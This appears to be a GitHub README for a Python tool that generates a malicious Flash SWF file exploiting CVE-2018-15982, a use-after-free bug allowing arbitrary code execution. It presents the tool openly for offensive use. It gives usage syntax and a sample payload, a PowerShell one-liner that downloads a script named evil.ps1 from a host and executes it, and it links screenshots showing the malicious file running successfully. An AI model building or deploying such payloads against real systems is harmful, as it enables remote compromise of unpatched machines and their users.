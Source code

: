 # Adobe Flash CVE-2018-15982

Script to dynamically create swf payload.  

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability  is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found here.
https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/


Usage:

```python create_swf.py <command> <output file name>```

Example:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  

## Example Usage


Example command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)

